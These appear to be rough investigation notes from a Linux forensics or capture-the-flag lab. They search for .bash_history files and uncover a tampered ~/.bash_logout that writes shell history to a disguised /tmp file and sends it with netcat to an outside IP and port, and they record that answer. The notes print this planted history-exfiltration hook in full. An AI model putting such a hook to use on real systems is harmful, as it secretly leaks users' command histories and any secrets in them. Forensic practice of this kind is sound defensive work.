```shell
sudo find / -name .bash_history; #look for which users have a bash_history file
#Output
garviel@terra:~$ sudo find / -name .bash_history;
/home/garviel/.bash_history
/tmp/.bash_history
/root/.bash_history
#being search other psrts of the drive for a string containsd the .bash_history
/etc/apparmor.d/abstractions/bash:  @{HOME}/.bash_history 
grep -r ".bash_history" /lib     #System Libraries
/srv     #Service Data Directory began looking for direcotires containsing the bash file
#####
start looking in the .bash_history files located in all users location
grep -r ".bash_history" 
grep -r ".bash_profile" 
grep -r ".bash_login" 
/tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2,12.54.37.8:12000

# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy
###Output
if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
history -w /tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2
nc -w2 12.54.37.8 12000 < /tmp/systemd-private.$HEAD-systemd-resolved.service-$HEAD2
/home/garviel/.bash_logout,12.54.37.8:12000



```


